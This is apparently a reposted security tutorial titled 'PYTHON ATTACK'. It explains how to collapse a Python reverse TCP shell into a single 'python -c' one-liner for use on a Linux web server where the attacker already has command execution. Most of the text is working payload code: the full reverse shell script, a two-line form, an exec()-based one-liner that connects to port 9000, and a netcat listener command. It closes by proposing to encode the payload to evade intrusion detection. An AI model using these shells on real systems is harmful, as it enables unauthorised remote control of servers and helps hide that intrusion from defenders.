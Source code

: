 


PYTHON ATTACK
 

 Reference:
https://pauldotcom.com/2011/10/python-one-line-shell-code.html

You have remote command execution on a linux web server. Your normal tricks for getting a shell don't work but you know that the system has a fully functional python interpreter. In order to make your attack work you need to put the entire attack into a single command line passed to a python interpreter with the -c option. Here are a few python based one liners that can be executed with the -c option and tips for creating additional shells. Each of these examples shovel a shell to localhost. Start up a netcat listener to receive the shell ($nc -l -p 9000) before launching these sample attacks.
First we start out with a simple python reverse tcp connect shell like this one.


#!/usr/bin/python

import socket

import subprocess 

s=socket.socket() 

s.connect(("127.0.0.1",9000)) 

while 1:

  p = subprocess.Popen(s.recv(1024),  shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

  s.send(p.stdout.read() + p.stderr.read())



Then we try to collapse it down to one line by separating the existing lines with semicolons. That is simple enough, but there is a problem. Python relies on spacing to indicate the start and end of a code block. The while loop doesn't want to collapse to a single line. But we can get it down to two lines.


>>> import socket;import subprocess ;s=socket.socket() ;s.connect(("127.0.0.1",9000)) 

>>> while 1:  p = subprocess.Popen(s.recv(1024),  shell=True,stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);  s.send(p.stdout.read() + p.stderr.read())



If you keep the spacing straight and put those two lines into an interactive python session it works properly. As soon as you try to collapse the two lines with a semicolon you get a syntax error. The good news is you can get around that with the "exec" method. Python's exec method is similar to "eval()" in javascript and we can use it to interpret a script with "\n" (new lines) in it to separate the lines. Using this technique we get the following one line python shell.

python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"


Setup a netcat listner on your localhost listening on port 9000 and this works very nicely. If we are going to use exec(), we might as well add a little IDS evasion to the mix and obscure our code. So lets drop into interactive python and encode our payload.
